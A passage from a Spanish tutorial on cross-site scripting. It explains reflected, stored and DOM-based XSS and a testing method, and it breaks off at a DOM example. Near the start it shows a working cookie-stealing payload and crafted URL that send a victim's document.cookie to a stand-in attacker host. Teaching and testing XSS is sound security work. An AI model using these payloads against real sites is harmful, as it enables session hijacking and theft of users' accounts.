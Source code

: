 **Explotación:**

Un atacante puede construir una URL como: `https://sitio-vulnerable.com/saludo.php?name=<script>alert("XSS POC")</script>`

Cuando una víctima visita esta URL, el script se inyecta en la respuesta HTML y el navegador lo ejecuta: `Hola, <script>alert("XSS POC")</script>!`

**Explotación con Impacto Real (Robo de Cookies):**

Payload: `<script>var img = new Image(); img.src = "http://atacante.com/steal?cookie=" + document.cookie;</script>` URL maliciosa: `https://sitio-vulnerable.com/saludo.php?name=<script>var i=new Image();i.src="http://atacante.com/c=" %2B document.cookie;</script>` _(Nota: `%2B` es `+` codificado en URL)_

Cuando la víctima visita la URL, su navegador ejecuta el script, que envía sus cookies (si no son `HttpOnly`) al servidor del atacante.

### Tipos Principales de XSS

1. **XSS Reflejado (Reflected XSS):**

   - El payload malicioso se envía como parte de la petición HTTP (normalmente en un parámetro GET de la URL, pero también puede ser en POST).
   - El servidor "refleja" el payload en la respuesta HTTP sin la sanitización o codificación adecuada.
   - Requiere que la víctima haga clic en un enlace malicioso o envíe un formulario preparado por el atacante.
   - **Superficies de ataque comunes:** Parámetros URL, datos de formularios POST.
   - **Metodología de testeo:**
     - Identificar todos los puntos de entrada de usuario (parámetros GET/POST, cabeceras HTTP reflejadas).
     - Enviar texto de prueba (e.g., `TESTXSS`) y buscar dónde se refleja en la respuesta (usar "Ver código fuente" o las herramientas de desarrollador del navegador).
     - Probar con etiquetas HTML inocuas para ver si se renderizan (e.g., `<u>test</u>`, `<b>test</b>`).
     - Si se renderizan, intentar inyectar scripts.
2. **XSS Almacenado (Stored XSS / Persistent XSS):**

   - El payload malicioso se almacena permanentemente en el servidor de la aplicación (e.g., en una base de datos, archivo de log, foro de mensajes, comentarios, perfil de usuario).
   - Cuando cualquier usuario visita la página que muestra estos datos almacenados, el script se ejecuta en su navegador.
   - **Impacto mayor:** No requiere una acción específica de la víctima (como hacer clic en un enlace) más allá de visitar la página afectada. Puede afectar a todos los usuarios que vean el contenido malicioso, e incluso puede usarse para crear gusanos XSS (XSS worms).
   - **Superficies de ataque comunes:** Campos de perfil de usuario, comentarios, posts en foros, nombres de archivo subidos, carritos de compra, logs visibles por administradores.
3. **XSS Basado en DOM (DOM-based XSS):**

   - La vulnerabilidad reside enteramente en el código JavaScript del lado del cliente.
   - Ocurre cuando JavaScript toma datos de una fuente controlable por el atacante (e.g., `location.hash`, `location.search`, `document.referrer`, `window.name`, `localStorage`, `sessionStorage`, datos de `postMessage`) y los pasa a un "sink" (una función o propiedad del DOM que puede ejecutar scripts o modificar el HTML de forma insegura) sin la validación o codificación adecuadas.
   - El payload puede no llegar nunca al servidor, lo que lo hace difícil de detectar por WAFs o logs del servidor.
   - **Ejemplo:**
